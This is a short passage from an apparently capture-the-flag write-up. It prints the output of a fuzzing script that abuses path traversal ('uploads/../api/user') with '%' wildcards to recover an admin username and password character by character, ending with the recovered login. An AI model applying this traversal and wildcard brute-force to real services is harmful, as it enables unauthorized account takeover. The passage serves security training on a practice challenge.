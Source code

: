 ```sh
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchadm%","auth":"6d4771f64f64ed71f8782de9cad19a68"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchadmi%","auth":"07c90be0a9c886d667407f0bceb85dc1"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchadmin%","auth":"492e8c29c6b95c00bc37be3884596c86"}'

$ ./api_fuzz.py password
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s%","auth":"cce984225bf170447abaad0fa0453ce7"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4%","auth":"e1363f9484af0f5f74bb9d742b46e6dd"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4n%","auth":"aec35f51d4c9cd352748ddfc96f420a5"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt%","auth":"53e5891faf4d065a21a2cfa8ae929627"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4%","auth":"6baf718704fe9c42d165410e4e37471c"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4s%","auth":"0c4fedfb721842a56a05405307eff3eb"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4su%","auth":"728b47db8b71517e7d8bf0462fdf60bf"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4suc%","auth":"e7fb3d6a9c0adbd839ac69922a2cddfc"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4suck%","auth":"d06aa53fa99473d10e523cd1cd8b1697"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4sucks%","auth":"c1e451e64373509cd5f30e4899fdb2ce"}'
```

Ok! Using the exfiltrated login of `grinchadmin/s4nt4sucks` we can access the attack box!
